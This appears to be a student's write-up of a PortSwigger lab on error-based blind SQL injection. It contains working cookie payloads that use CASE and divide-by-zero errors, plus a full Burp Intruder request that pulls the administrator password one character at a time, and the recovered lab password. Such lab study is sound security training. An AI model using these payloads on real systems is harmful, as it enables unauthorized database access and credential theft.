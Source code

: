 ```yaml
---
tags: ["sqli"]
image: "img/Portswigger/sql-injection.png"
---
```


## Condition based Sql injection

In the preceding example, suppose instead that the application carries out the same SQL query, but does not behave any differently depending on whether the query returns any data. The preceding technique will not work, because injecting different Boolean conditions makes no difference to the application's responses.

In this situation, it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

`xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

## Challenge

--> i added this payload in intruder

```bash
GET /filter?category=Tech+gifts HTTP/1.1
Host: acea1f411f956f08807e2da400290063.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: TrackingId=wkQ0FTyX6kLxoXL0'||(SELECT CASE WHEN (SUBSTR(password,§1§,1)='§m§') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'; session=ULjDh6MI3mR1TiRhqUDd2ls5ixNrVWLm
Upgrade-Insecure-Requests: 1
```

--> and i got this results

![](Attachments/Pastedimage20211003074958.png)

--> after assembling them i got this password :

`8vzkeohgdu9ilptqy1wd`

![](Attachments/Pastedimage20211003073612.png)
